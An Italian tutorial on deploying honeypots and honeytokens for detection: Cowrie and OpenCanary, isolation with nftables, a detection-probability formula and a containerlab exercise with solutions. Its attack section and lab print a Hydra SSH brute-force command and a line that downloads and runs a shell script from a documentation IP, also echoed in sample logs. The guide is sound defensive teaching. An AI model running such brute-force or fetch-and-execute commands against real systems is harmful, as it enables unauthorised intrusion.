

## Perché conta

Quasi tutta la detection si basa sul distinguere il traffico "strano" da quello normale, e il traffico
normale è enorme e rumoroso: da qui i falsi positivi del [SIEM]()
e le regole di [Suricata]() che nessuno legge più. Un **honeypot**
ribalta il problema: è un sistema (o un servizio, o un file) che **nessun utente legittimo ha motivo di toccare**.
Se qualcosa lo contatta, è scansione, movimento laterale o malware. Il rapporto segnale/rumore è altissimo.

È il complemento naturale della [microsegmentazione](): la
segmentazione limita dove l'attaccante può andare, la **deception** ti avvisa quando prova ad andarci.
Non sostituisce firewall e patching: è un allarme antifurto, non una porta blindata.

## Come funziona

Si distinguono tre famiglie, per livello di interazione e di rischio:

- **Bassa interazione**: emulano solo il banner e qualche risposta (OpenCanary). Facili da gestire, poco rischiosi, ingannano solo gli scanner.
- **Media interazione**: emulano una shell o un servizio in modo credibile, ma tutto in sandbox (Cowrie per SSH/Telnet). Registrano credenziali e comandi.
- **Alta interazione**: sistemi reali, completi e sacrificabili. Massimo valore informativo, massimo rischio: se l'attaccante ci prende il controllo, è un punto d'appoggio nella tua rete.

Accanto agli honeypot ci sono gli **honeytoken** (Canarytokens): credenziali, file, record DNS o chiavi AWS
finti che non servono a nulla, ma generano un alert quando vengono usati. Il catalogo di tecniche è in
**MITRE Engage**, che mappa le attività di deception sulle tecniche ATT&CK.



Il valore statistico è semplice. Se un attaccante che esplora la rete tocca ogni host con probabilità $p$ e
hai piazzato $n$ decoy indistinguibili dagli host veri, la probabilità di rilevarlo almeno una volta è

$$
P_{\text{detect}} = 1 - (1 - p)^n
$$

Con $p = 0{,}05$ e $n = 20$ decoy si ottiene $P \approx 0{,}64$; con $n = 60$ si supera il $95\%$. Pochi decoy
ben distribuiti nelle VLAN interne rendono costoso il movimento laterale.

## L'attacco (cosa vede l'honeypot)

Un bot qualsiasi su Internet tenta decine di credenziali al minuto su SSH. Dal lato attaccante:

```bash
# brute force tipico verso una porta SSH esposta
hydra -L users.txt -P rockyou-top1000.txt -t 4 ssh://203.0.113.50

# dopo un login riuscito: ricognizione e download di un payload
uname -a; cat /proc/cpuinfo | grep name | head -1
wget http://198.51.100.9/x.sh -O /tmp/x.sh && sh /tmp/x.sh
```

Cowrie accetta il login (configurabile), mostra una shell finta e registra tutto: credenziali provate,
comandi digitati, URL scaricati (e salva i file in quarantena). L'evento è un JSON per riga:

```json
{"eventid":"cowrie.login.success","username":"root","password":"admin123",
 "src_ip":"198.51.100.77","session":"a1b2c3d4","timestamp":"2026-10-12T07:31:02Z"}
{"eventid":"cowrie.command.input","input":"wget http://198.51.100.9/x.sh -O /tmp/x.sh",
 "src_ip":"198.51.100.77","session":"a1b2c3d4"}
```

Tutti gli indirizzi sopra sono di documentazione (RFC 5737): non vanno contattati.

## La difesa

Il punto critico è **l'isolamento**: l'honeypot deve essere visibile all'attaccante ma incapace di
raggiungere la produzione. Si mette in una VLAN dedicata e si permette solo il traffico in ingresso
verso le porte esca e l'uscita verso il collector:

```nginx {hl_lines=[7,9,12,14]}
table inet decoy {
  chain forward {
    type filter hook forward priority 0; policy drop;
    ct state established,related accept

    # dall'esterno verso le sole porte esca
    iifname "wan0" ip daddr 10.66.0.10 tcp dport { 22, 23, 80 } accept
    # il decoy può solo loggare verso il collector
    iifname "decoy0" ip daddr 10.20.0.5 tcp dport 5514 accept
    # tutto il resto dal decoy è bloccato e tracciato
    iifname "decoy0" log prefix "DECOY-EGRESS " counter drop
    # nessun accesso alla produzione
    iifname "decoy0" oifname "lan0" drop
  }
}
```

Nota l'uscita Internet: un honeypot SSH che può scaricare payload veri diventa un nodo di botnet.
Meglio negarla (Cowrie scarica comunque il file via proxy controllato, se serve). La configurazione di
Cowrie sposta l'SSH reale su un'altra porta e fa ascoltare l'esca su 2222, redirezionata dalla 22:

```ini {hl_lines=[3,5,8]}
# etc/cowrie.cfg
[ssh]
listen_endpoints = tcp:2222:interface=0.0.0.0
version = SSH-2.0-OpenSSH_9.2p1 Debian-2+deb12u3

[honeypot]
hostname = db-prod-03
auth_class = AuthRandom
```

Regole pratiche per un decoy credibile e sicuro:

1. **Nome e banner plausibili** (`db-prod-03`, versione OpenSSH realistica): un honeypot chiamato `honeypot01` si riconosce subito.
2. **Alert verso il SIEM**: invia il JSON con syslog/Filebeat e scrivi una regola che alza severità alta su *qualsiasi* connessione dalla rete interna verso il decoy.
3. **Nessun dato reale** e nessuna credenziale riusata altrove.
4. **Patch e monitoraggio** del tuo honeypot: è esposto a Internet per definizione.
5. Aggiungi **honeytoken** nei posti dove l'attaccante guarda (file `passwords.xlsx` su un share, una chiave AWS finta nel repo).

## Lab

Con [containerlab]() crea tre nodi: `attacker`, `decoy` (Cowrie) e `siem` (anche solo `tail -f`).

1. Avvia Cowrie su `decoy` e fai arrivare la porta 22 all'esca.
2. Dall'`attacker` esegui un brute force con Hydra e poi un login riuscito.
3. Trova nei log il comando eseguito e l'indirizzo sorgente.
4. Aggiungi la regola nftables di egress e verifica che il decoy non possa raggiungere `lan0`.
5. Domanda: perché un decoy che può raggiungere Internet liberamente è peggio di nessun decoy?


<details><summary>Soluzione</summary>
<ol>
<li>Con nftables: <code>nft add rule ip nat prerouting iifname "wan0" tcp dport 22 redirect to :2222</code> (tabella <code>nat</code> con hook prerouting).</li>
<li><code>hydra -l root -P pass.txt -t 4 ssh://decoy</code>; con <code>AuthRandom</code> prima o poi un tentativo passa.</li>
<li><code>jq 'select(.eventid=="cowrie.command.input") | {src_ip,input}' var/log/cowrie/cowrie.json</code>.</li>
<li>Da dentro il decoy, <code>ping 10.20.0.1</code> deve fallire e comparire <code>DECOY-EGRESS</code> in <code>journalctl -k</code>.</li>
<li>Perché l'attaccante può usarlo come base per attacchi verso terzi (con il tuo IP), scaricare tool e scansionare altre reti: il rischio legale e reputazionale supera il beneficio. L'egress va negato o filtrato.</li>
</ol>
</details>


## Conclusione

Honeypot e honeytoken non fermano gli attacchi, ma trasformano il silenzio in un segnale: dove prima
c'era un log tra milioni, ora c'è un evento che non dovrebbe esistere. Il costo è basso, a patto di
rispettare l'isolamento e di collegare gli alert a qualcuno che li legga. Il prossimo passo naturale è
automatizzare la risposta, bloccando l'indirizzo sorgente su tutti i firewall dopo il primo contatto.

**Prossimo nella serie:** extra fuori serie · [Torna alla roadmap]()
